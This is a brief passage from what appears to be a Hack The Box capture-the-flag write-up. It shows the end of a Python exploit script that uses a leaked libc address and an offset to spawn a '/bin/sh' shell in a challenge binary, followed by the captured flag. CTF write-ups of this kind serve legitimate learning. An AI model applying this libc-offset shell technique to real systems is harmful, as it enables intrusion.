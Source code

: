 ```python
assert libc.address & 0xfffffffffffff000
li(f"Libc Address: {hex(libc.address)}")
create(0x80, 0, e(str(hex(libc.address + 0x50d70)[2:])))
create(0x80, 1, b'/bin/sh')
exit()
com()
```

![chall-sc](https://hackmd.io/_uploads/rJVtsPWRp.png)

Flag: `HTB{0m43_w4_m0u_5h1nd31ru~uWu}`
